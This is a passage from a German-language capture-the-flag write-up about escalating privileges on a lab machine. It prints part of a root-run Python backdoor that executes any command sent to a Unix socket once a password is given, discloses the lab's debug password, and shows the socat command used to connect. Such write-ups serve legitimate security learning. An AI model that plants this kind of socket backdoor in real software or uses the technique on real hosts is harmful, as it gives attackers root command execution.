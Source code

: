 ``` {python, highlightlines="10-12,32-45" }
        response = "password accepted!\n"
        connection.sendall(response.encode())

        try:
            while True:
                response = "enter command: "
                connection.sendall(response.encode())
                data = connection.recv(1024)

                if data:
                    returncode = os.system(data)
                    if(returncode == 0):
                        response = "command executed!\n"
                        connection.sendall(response.encode())
                    else:
                        response = "an error has occured..\n"
                        connection.sendall(response.encode())
                        connection.close()
        # sometimes this crashes but I have set up a service that should restart it
        except:
            print("nothing to see here..")

    # just in case..
    else:
        print("invalid password")
        response = "invalid password, goodbye!\n"
        connection.sendall(response.encode())
        connection.close()
```

In diesem Skript ist ersichtlich, dass nach der Eingabe des korrekten Passwords, alle Strings, welche an den `/run/cloak.sock` Socket geschickt werden, als System-Kommandos ausgeführt werden. Inspiziert man alle laufenden Python-prozesse, ist ersichtlich, dass ebendieses Skript von root ausgeführt wurde:

```.bash!
stormcloak@Riften:~$ ps aux | grep python3
root         888  0.0  0.9  21716  9440 ?        Ss   Nov07   0:00 /usr/bin/python3 /opt/cloak.py
stormcl+   85158  0.0  0.2   6332  2104 pts/1    S+   12:53   0:00 grep python3
```

Das Passwort wurde im Skript als Hash gespeichert. Der Kommentar weist jedoch darauf hin, dass das Debugpasswort aus dem Heimverzeichnis von Stormcloak verwendet werden kann. Und bei der Eingabe wird tatsächlich das Passwort `snakesnakefish!` aus der Datei `/home/stormcloak/debugpassword.txt` akzeptiert.


### Ausnützen des Unix-Sockets

Zuerst muss eine Verbindung mit dem Socket hergestellt werden. Dafür gibt es verschiedene Möglichkeiten, in diesem Fall wird das Tool `socat` verwendet, da es vorinstalliert und die Benutzung simpel ist:
```.bash!
socat - UNIX-CONNECT:/run/cloak.sock
```
